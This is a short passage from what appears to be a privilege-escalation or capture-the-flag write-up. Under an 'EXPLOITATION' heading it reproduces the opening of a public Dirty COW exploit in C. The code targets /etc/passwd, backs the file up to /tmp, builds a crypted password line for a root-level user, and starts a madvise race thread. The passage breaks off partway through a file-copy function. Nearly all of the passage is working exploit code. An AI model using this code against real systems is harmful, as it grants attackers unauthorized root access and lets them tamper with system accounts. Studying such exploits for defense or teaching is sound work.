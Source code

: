 ## **EXPLOITATION**

Thanks to this [**exploit**](https://github.com/firefart/dirtycow), we get this `c` code:

```c
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
```